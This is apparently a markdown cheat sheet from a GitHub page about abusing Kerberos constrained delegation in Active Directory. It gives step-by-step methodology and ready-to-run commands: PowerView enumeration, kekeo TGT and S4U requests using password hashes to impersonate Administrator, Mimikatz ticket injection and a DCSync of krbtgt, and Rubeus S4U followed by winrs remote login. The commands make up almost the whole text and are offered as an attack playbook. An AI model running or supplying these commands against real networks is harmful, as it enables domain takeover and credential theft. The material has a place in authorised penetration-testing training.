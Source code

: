 # Using PowerShell
## Methodology/Steps
> 1. List all the users having Constrained Delegation
> 2. Keep a note of the **msDS-AllowedToDelegateTo** value
> 3. Request for a TGT using the hash of the user with CD using kekeo (Which me must have collected before)
> 4. Keep a note of the TGT return ticket
> 5. Now request a TGS with the 2nd step and 4th step values as parameters in */service* and */tgt*
> 6. Keep a note of the TGS return Ticket
> 7. Now we can inject the TGS return Ticket with **Inkove-Mimikatz**
> 8. We can now list the file systems of that account. Example : **`ls \\dc-mysql\C$`** but *can not* use any **WMI-Commands**. We can use *ScriptBlock* to execute commands on the system.
> 9. But if the user DC we can do the same process and then do a **DCSync** attack

---

## PowerView [ Dev Branch ]
### Enumerate users and computers with CD enabled
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

---

## kekeo
### Requesting a TGT
```shell
tgt::ask /user:websvc /domain:domain.local /rc4:cc098f204c5887eaa8253e7c2749156f
tgt::ask /user:dcorp-adminsrv /domain:domain.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

### Request a TGS
```shell
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL
```

---

## Invoke-Mimikatz 
### Inject the ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'
```
### Execute DCSync 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
### ScriptBlock
```powershell
Inoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local
```

---

# Using Binaries
## Methodology/Steps
> 1. Use Rubeus to request a TGS for the user and inject it into memory
> 2. Remote login the machine using winrs

---

## Rubeus
### 1. Request for a S4U
```powershell
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

### 2. Remote login using winrs
```powershell
winrs -r:us-mssql cmd.exe
```

